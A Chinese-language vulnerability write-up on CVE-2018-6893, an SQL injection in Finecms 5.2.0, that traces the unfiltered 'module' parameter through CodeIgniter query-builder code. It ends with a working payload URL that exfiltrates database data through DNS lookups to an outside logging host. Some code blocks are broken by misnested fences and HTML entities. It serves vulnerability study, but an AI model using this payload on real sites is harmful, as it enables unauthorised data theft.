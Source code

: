 # （CVE-2018-6893）Finecms SQL注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2942](https://www.zhihuifly.com/t/topic/2942)

# （CVE-2018-6893）Finecms 5.2.0 SQL注入漏洞

## 一、漏洞简介

Finecms 5.2.0版本中的`controllers/member/Api.php`文件存在SQL注入漏洞，该漏洞源于程序没有进行有效的过滤。远程攻击者可利用该漏洞执行SQL命令。

## 二、漏洞影响

Finecms 5.2.0

## 三、复现过程

漏洞位置在：

finecms/dayrui/controllers/member/Api.php 590行左右

```
public function checktitle() {
    $id = (int)$this->input->get('id');
    $title = $this->input->get('title', TRUE);
    $module = $this->input->get('module');
    (!$title || !$module) && exit('');
    $num = $this->db->where('id<>', $id)->where('title', $title)->count_all_results(SITE_ID.'_'.$module);
    $num ? exit(fc_lang('<font color=red>'.fc_lang('重复').'</font>')) : exit('');
} 
```

可以看到方法count_all_results()使用了$module,count_all_results()方法如下：

```
public function count_all_results($table = '', $reset = TRUE)
    {
        if ($table !== '')
        {
            $this->_track_aliases($table);
            $this->from($table);
        }

```
 // ORDER BY usage is often problematic here (most notably
    // on Microsoft SQL Server) and ultimately unnecessary
    // for selecting COUNT(*) ...
    if ( ! empty($this-&gt;qb_orderby))
    {
        $orderby = $this-&gt;qb_orderby;
        $this-&gt;qb_orderby = NULL;
    }

    $result = ($this-&gt;qb_distinct === TRUE OR ! empty($this-&gt;qb_groupby) OR ! empty($this-&gt;qb_cache_groupby) OR $this-&gt;qb_limit OR $this-&gt;qb_offset)
        ? $this-&gt;query($this-&gt;_count_string.$this-&gt;protect_identifiers('numrows')."\nFROM (\n".$this-&gt;_compile_select()."\n) CI_count_all_results")
        : $this-&gt;query($this-&gt;_compile_select($this-&gt;_count_string.$this-&gt;protect_identifiers('numrows')));

    if ($reset === TRUE)
    {
        $this-&gt;_reset_select();
    }
    // If we've previously reset the qb_orderby values, get them back
    elseif ( ! isset($this-&gt;qb_orderby))
    {
        $this-&gt;qb_orderby = $orderby;
    }

    if ($result-&gt;num_rows() === 0)
    {
        return 0;
    }

    $row = $result-&gt;row();
    return (int) $row-&gt;numrows;
} 
``` 
```

可以看到对传入的table参数进行了是否为空校验以及经过两个函数的处理，再跟进_track_aliases函数继续进行分析：

```
protected function _track_aliases($table)
    {
        if (is_array($table))
        {
            foreach ($table as $t)
            {
                $this->_track_aliases($t);
            }
            return;
        }

```
 // Does the string contain a comma?  If so, we need to separate
    // the string into discreet statements
    if (strpos($table, ',') !== FALSE)
    {
        return $this-&gt;_track_aliases(explode(',', $table));
    }

    // if a table alias is used we can recognize it by a space
    if (strpos($table, ' ') !== FALSE)
    {
        // if the alias is written with the AS keyword, remove it
        $table = preg_replace('/\s+AS\s+/i', ' ', $table);

        // Grab the alias
        $table = trim(strrchr($table, ' '));

        // Store the alias, if it doesn't already exist
        if ( ! in_array($table, $this-&gt;qb_aliased_tables, TRUE))
        {
            $this-&gt;qb_aliased_tables[] = $table;
            if ($this-&gt;qb_caching === TRUE &amp;&amp; ! in_array($table, $this-&gt;qb_cache_aliased_tables, TRUE))
            {
                $this-&gt;qb_cache_aliased_tables[] = $table;
                $this-&gt;qb_cache_exists[] = 'aliased_tables';
            }
        }
    }
} 
``` 
```

可以看到table在这个函数中经过了较多过滤，继续看下一个函数from：

```
public function from($from)
    {
        foreach ((array) $from as $val)
        {
            if (strpos($val, ',') !== FALSE)
            {
                foreach (explode(',', $val) as $v)
                {
                    $v = trim($v);
                    $this->_track_aliases($v);
                    $this->qb_from[] = $v = $this->protect_identifiers($v, TRUE, NULL, FALSE);
                    if ($this->qb_caching === TRUE)
                    {
                        $this->qb_cache_from[] = $v;
                        $this->qb_cache_exists[] = 'from';
                    }
                }
            }
            else
            {
                $val = trim($val);
                // Extract any aliases that might exist. We use this information
                // in the protect_identifiers to know whether to add a table prefix
                $this->_track_aliases($val);
                $this->qb_from[] = $val = $this->protect_identifiers($val, TRUE, NULL, FALSE);
                if ($this->qb_caching === TRUE)
                {
                    $this->qb_cache_from[] = $val;
                    $this->qb_cache_exists[] = 'from';
                }
            }
        }
        return $this;
    } 
```

可以看到经过这两个函数以及finecms本身get方法的过滤，能用的符号不多了，但是括号以及逗号都还能使用。

在测试的时候，如果传入的参数比如：module=1，则会爆表不存在的错误，并且可以看到查询的语句，而module参数位于from位置，也就是查询的表的位置，于是使用逗号分割查询的表，并使用dns外带数据

payload如下

```
http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=13&title=123&module=news,(select load_file(concat(0x5c5c5c5c,version(),0x2e6d7973716c2e61687a6935672e636579652e696f5c5c616263))) as total 
```